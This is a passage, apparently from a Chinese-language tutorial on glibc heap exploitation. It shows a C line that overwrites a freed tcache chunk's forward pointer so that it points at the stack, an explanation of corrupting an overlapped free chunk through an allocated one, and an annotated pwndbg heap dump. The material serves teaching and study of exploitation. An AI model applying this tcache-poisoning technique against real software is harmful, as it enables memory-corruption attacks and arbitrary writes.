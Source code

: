```c
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
```

由于现在堆块chunk_prev处于malloc状态的，也就是说其user_data可写，并且这个堆块是包含处于free状态下chunk_victim，现在我们可以通过chunk_prev来修改chunk_victim的内容，这里修改tcache的next指针，让其指向stack上：

```c
pwndbg> x/400gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
0x555555757010:	0x0000000000000000	0x0700000000000000
......
0x5555557570c0:	0x0000000000000000	0x0000555555757ae0
......    
0x555555757250:	0x0000000000000000	0x0000000000000111 #chunk0(free-tcachebin)
0x555555757260:	0x0000000000000000	0x0000555555757010
......
0x555555757360:	0x0000000000000000	0x0000000000000111 #chunk1(free-tcachebin)
0x555555757370:	0x0000555555757260	0x0000555555757010
......
0x555555757470:	0x0000000000000000	0x0000000000000111 #chunk2(free-tcachebin)
0x555555757480:	0x0000555555757370	0x0000555555757010
......
0x555555757580:	0x0000000000000000	0x0000000000000111 #chunk3(free-tcachebin)
0x555555757590:	0x0000555555757480	0x0000555555757010
......
0x555555757690:	0x0000000000000000	0x0000000000000111 #chunk4(free-tcachebin)
0x5555557576a0:	0x0000555555757590	0x0000555555757010
......
0x5555557577a0:	0x0000000000000000	0x0000000000000111 #chunk5(free-tcachebin)
0x5555557577b0:	0x00005555557576a0	0x0000555555757010
......
0x5555557578b0:	0x0000000000000000	0x0000000000000111 #chunk6(malloc)
0x5555557578c0:	0x00005555557577b0	0x0000000000000000
......
0x5555557579c0:	0x0000000000000000	0x0000000000000131 #chunk_prev(malloc)-------------  
......																                  |
0x555555757ad0:	0x0000000000000000	0x0000000000000111 #chunk_victim(free-tcachebin)  |
0x555555757ae0:	0x00007fffffffdd80	0x0000555555757010   							  ｜
			   #0x00005555557577b0													  |
0x555555757af0:	0x0000000000000000	0x00000000000000f1 #unsortedbin_chunk-------------|  						  
0x555555757b00:	0x00007ffff7dcdca0	0x00007ffff7dcdca0				
......																				
0x555555757be0:	0x00000000000000f0	0x0000000000000020 #chunk(avoid top chunk)
0x555555757bf0: 0x0000000000000000	0x0000000000000000
0x555555757c00:	0x0000000000000000	0x0000000000020401 #top_chunk
......
0x555555757c70:	0x0000000000000000	0x0000000000000000
pwndbg>  
```
